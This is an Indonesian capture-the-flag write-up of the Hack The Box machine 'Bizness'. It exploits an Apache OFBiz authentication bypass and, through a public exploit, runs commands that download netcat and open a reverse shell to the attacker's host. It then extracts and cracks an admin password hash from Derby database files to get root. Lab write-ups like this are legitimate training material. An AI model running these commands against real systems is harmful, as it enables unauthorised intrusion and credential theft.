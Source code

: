 # Bizness HTB
```bash
ipTarget=10.10.11.252
```
Pertama, tentunya lakukan enumerasi terhadap `ipTarget`, disini saya menggunakan `rustscan`
```bash
rustscan -a 10.10.11.252 -- -A | tee zcan
...
Open 10.10.11.252:22                                                                                      
Open 10.10.11.252:80
Open 10.10.11.252:443
Open 10.10.11.252:39571
Open 10.10.11.252:46503
...
22/tcp    open  ssh        syn-ack OpenSSH 8.4p1 Debian 5+deb11u3 (protocol 2.0)
...
80/tcp    open  http       syn-ack nginx 1.18.0
|_http-server-header: nginx/1.18.0
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Did not follow redirect to https://bizness.htb/
443/tcp   open  ssl/http   syn-ack nginx 1.18.0
|_ssl-date: TLS randomness does not represent time
| tls-nextprotoneg: 
|_  http/1.1
| tls-alpn: 
|_  http/1.1
|_http-title: Did not follow redirect to https://bizness.htb/
|_http-server-header: nginx/1.18.0
...
39571/tcp open  tcpwrapped syn-ack
46503/tcp open  tcpwrapped syn-ack
```
Selanjutnya kita add `ipTarget` ke `/etc/hosts`
```bash
sudo echo "10.10.11.252	bizness.htb" >> /etc/hosts
```

Lalu kita lakukan enumerate direktori pada web target
```bash
dirb https://bizness.htb
...
==> DIRECTORY: https://bizness.htb/accounting/
...
```
Kita akan mendapat cukup banyak direktori, namun jika kita buka, semuanya pasti akan tersambung ke `https://bizness.htb/<dir>/control/login` yang mana memberikan login page dari service `Apache OFBiz`. Jika kita search exploit dari service tersebut, maka akan keluar beberapa PoC, namun disini saya mengacu pada artikel report dari [sonicwall](https://blog.sonicwall.com/en-us/2023/12/sonicwall-discovers-critical-apache-ofbiz-zero-day-authbiz/). Dimana dalam report tersebut dijelaskan bahwa versi 18.12 pada `Apache OFBiz` terdapat SSRF vulnerability dan bypass authentication. Jika kita melakukan request ke link `curl "https://bizness.htb/webtools/control/ping?USERNAME=&PASSWORD=&requirePasswordChange=Y" -k --raw` maka akan menghasilkan output seperti berikut
```bash
curl "https://bizness.htb/webtools/control/ping?USERNAME=&PASSWORD=&requirePasswordChange=Y" -k --raw
...
6


PONG
0
```
Untuk hal ini, kita akan menggunakan exploit dari [jakabakos](https://github.com/jakabakos/Apache-OFBiz-Authentication-Bypass) di github. Kita akan coba untuk mendapatkan revshell dengan cara siapkan listener terlebih dahulu
```bash
rlwrap ncat -lvnp 8888
```
Selanjutnya kita akan menggunakan `nc` untuk mendapat revshell
```bash
cp /usr/bin/nc .
python3 -m http.server 80
```
Selanjutnya kita lakukan request SSRF menggunakan exploit dari git
```bash
git clone https://github.com/jakabakos/Apache-OFBiz-Authentication-Bypass.git
cd Apache-OFBiz-Authentication-Bypass
python3 exploit.py --url https://bizness.htb --cmd 'wget http://<local-IP>/nc'
python3 exploit.py --url https://bizness.htb --cmd 'nc <local-IP> 8888 -c /bin/bash'
```
Nantinya kita akan mendapat response seperti berikut jika telah berhasil mendapatkan session shell
```bash
rlwrap ncat -lvnp 8888 
Ncat: Version 7.94SVN ( https://nmap.org/ncat )
Ncat: Listening on [::]:8888
Ncat: Listening on 0.0.0.0:8888
Ncat: Connection from 10.10.11.252:34344.
```
Kita dapat melakukan stabilize shell dengan python3
```bash
python3 -c "import pty;pty.spawn('/bin/bash')"
...
* CTRL+Z
...
stty raw -echo; fg
```
Selanjutnya kita dapat melihat user flag di `/home/ofbiz/user.txt`.

Untuk mendapatkan user root, disini saya agak kesusahan. Namun setelah sedikit membaca writeups dari [Nathanule](https://nathanule99.gitbook.io/ctf-write-ups/walk-throughs/htb-linux-machines/bizness-htb), saya bisa mendapatkan root flag. Cara darinya adalah kita melakukan enumerasi file dengan beberapa file extensions, yang mana disini adalah `.xml`
```bash
find / -type f -name '*.xml' 2>/dev/null
...
/opt/ofbiz/framework/resources/templates/AdminUserLoginData.xml
...
```
yang mana berisi
```bash
cat /opt/ofbiz/framework/resources/templates/AdminUserLoginData.xml
...
...
<entity-engine-xml>
    <UserLogin userLoginId="@userLoginId@" currentPassword="{SHA}47ca69ebb4bdc9ae0adec130880165d2cc05db1a" requirePasswordChange="Y"/>
    <UserLoginSecurityGroup groupId="SUPER" userLoginId="@userLoginId@" fromDate="2001-01-01 12:00:00.0"/>
</entity-engine-xml>
```
Kita mendapatkan hashed password `{SHA}47ca69ebb4bdc9ae0adec130880165d2cc05db1a`. Ketika dicek dengan `hashid` kita mendapat `SHA1`, namun ketika dicrack tidak bisa.
Selanjutnya lakukan enumerasi dengan `linpeas.sh`
```bash
wget http://<localIP>:5120/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh
...
...
/opt/ofbiz/runtime/data/derby/ofbiz/log/log31.dat
```
Kita akan melakukan enumerasi file pada `derby`. `Derby` atau `Apache Derby` merupakan RDBMS open source yang menggunakan java. Disini menjadi hal menarik, karena kita dapat mencoba untuk menggali informasi pada `.dat` files dengan menggunakan `strings`. Karena dapat mencoba untuk mencari tahu file `.dat` ada dimana saja dengan cara
```bash
find / -type f -name '*.dat' 2>/dev/null
...
...
/var/cache/debconf/passwords.dat                                                                          
/var/cache/debconf/templates.dat                                                                          
/var/cache/debconf/config.dat                                                                             
/usr/lib/jvm/java-11-openjdk-amd64/lib/tzdb.dat                                                           
/usr/share/GeoIP/GeoIP.dat                                                                                
/usr/share/GeoIP/GeoIPv6.dat                                                                              
/usr/share/publicsuffix/public_suffix_list.dat                                                            
/opt/ofbiz/runtime/data/derby/ofbiz/seg0/c10001.dat                                                       
/opt/ofbiz/runtime/data/derby/ofbiz/seg0/c7161.dat                                                        
/opt/ofbiz/runtime/data/derby/ofbiz/seg0/c12fe1.dat                                                       
/opt/ofbiz/runtime/data/derby/ofbiz/seg0/cf4f1.dat                                                        
/opt/ofbiz/runtime/data/derby/ofbiz/seg0/cc3f1.dat
/opt/ofbiz/runtime/data/derby/ofbiz/seg0/cc581.dat
/opt/ofbiz/runtime/data/derby/ofbiz/seg0/c11601.dat
/opt/ofbiz/runtime/data/derby/ofbiz/seg0/c9151.dat
/opt/ofbiz/runtime/data/derby/ofbiz/seg0/c101.dat
/opt/ofbiz/runtime/data/derby/ofbiz/seg0/cebd1.dat
/opt/ofbiz/runtime/data/derby/ofbiz/seg0/cdd21.dat
/opt/ofbiz/runtime/data/derby/ofbiz/seg0/c63e1.dat
/opt/ofbiz/runtime/data/derby/ofbiz/seg0/c14731.dat
/opt/ofbiz/runtime/data/derby/ofbiz/seg0/c9131.dat
/opt/ofbiz/runtime/data/derby/ofbiz/seg0/c93a1.dat
/opt/ofbiz/runtime/data/derby/ofbiz/seg0/c2150.dat
...
```
Dan kebanyakan file `.dat` berada di `/opt/ofbiz/runtime/data/derby/ofbiz/seg0/`, maka kita dapat mengambil semua isinya dan memasukkannya ke dalam 1 file txt. Lalu mencari hash yang kita butuhkan dengan `strings`
```bash
cat /opt/ofbiz/runtime/data/derby/ofbiz/seg0/*.d > dat_files.txt
strings dat_files.txt | grep -i SHA
...
# output
...
<eeval-UserLogin createdStamp="2023-12-16 03:40:23.643" createdTxStamp="2023-12-16 03:40:23.445" currentPassword="$SHA$d$uP0_QaVBpDWFeo8-dRzDqRwXQ2I" enabled="Y" hasLoggedOut="N" lastUpdatedStamp="2023-12-16 03:44:54.272" lastUpdatedTxStamp="2023-12-16 03:44:54.213" requirePasswordChange="N" userLoginId="admin"/>
...
"$SHA$d$uP0_QaVBpDWFeo8-dRzDqRwXQ2I
```
Kita mendapatkan hashed password `$SHA$d$uP0_QaVBpDWFeo8-dRzDqRwXQ2I`. Selanjutnya kita dapat melakukan crack password dengan script python dari [Nathanule](https://nathanule99.gitbook.io/ctf-write-ups/walk-throughs/htb-linux-machines/bizness-htb).
```bash
python3 crack.py
Processing:  10%|████▎                                     | .../14344392 [00:02<00:23, 559434.41it/s]Found Password:<password>, hash:$SHA1$d$uP0_QaVBpDWFeo8-dRzDqRwXQ2I=
Processing:  10%|████▎                                     | .../14344392 [00:02<00:23, 554451.24it/s]
```
dan kita bisa privesc ke root user.